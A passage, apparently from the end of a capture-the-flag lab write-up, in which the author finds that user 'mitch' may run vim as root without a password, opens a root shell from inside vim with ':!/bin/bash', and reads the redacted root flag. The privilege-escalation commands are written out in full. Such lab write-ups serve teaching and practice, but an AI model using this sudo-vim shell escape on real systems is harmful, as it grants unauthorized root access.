 ```bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

## What's the root flag?

Vim has the ability to run commands within it. I can run vim with sudo and then create shell. Here is what I ran to start vim:

```bash
$ sudo vim
```

While in vim I run the following command to get a shell:

```bash
:!/bin/bash
```

It worked. I'm in! The cursor changed to the # character and the prompt reads root@Machine. I ran the following to get the flag:

```bash
# cat /root/root.txt
REDACTED
```
